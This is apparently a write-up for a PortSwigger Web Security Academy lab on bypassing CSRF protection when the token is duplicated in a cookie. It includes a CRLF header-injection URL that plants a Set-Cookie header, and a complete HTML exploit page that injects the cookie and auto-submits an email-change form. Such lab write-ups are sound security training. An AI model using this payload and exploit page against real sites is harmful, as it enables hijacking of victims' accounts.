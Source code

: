 ## Lab Description: CSRF where token is duplicated in cookie 

![Uploading image.png…]()


## Solution: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/334a57a4-09dc-43d7-aa2b-0bf998af37ce)

Send the request to Burp Repeater and observe that the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/04c29258-899c-45de-be33-b9bbef88248a)

As soon as an adversary is able to set cookie values, the CSRF-protection can be circumvented entirely.The token may or may not require the proper format, so I just try it out with an arbitrary short value:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d97cf252-04bd-47c5-afd5-160a155d3c6d)

Sure enough, the request goes through and the email is updated.

Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e2d57ecd-5a8c-46eb-b1a6-f7ddb8ea3998)

Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
```
/?search=hii%0d%0aSet-Cookie:%20csrf=test
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/041204ac-8c79-472d-b485-d39052b876b6)

To create the exploit, I use the CSRF PoC generator of Burp Suite.And remove the auto-submit <script> block and instead add the following code to inject the cookie and submit the form:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ca024fb5-f2cb-4ec8-bbce-91a9ebf0c1ad)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d2d0e62b-a6a8-49d4-823f-d49685b0905c)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
   <script>
      history.pushState('', '', '/');
    </script>
    <form action="https://0a9f005604ed727d817f89b2004d0000.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="go112&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="hello" />
      <input type="submit" value="Submit request" />
    </form>
   <img src="https://0a9f005604ed727d817f89b2004d0000.web-security-academy.net/?search=hii%0d%0aSet-Cookie:%20csrf=hello%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/643021cd-89f8-4f0b-ad85-f1e0bd1d4be2)
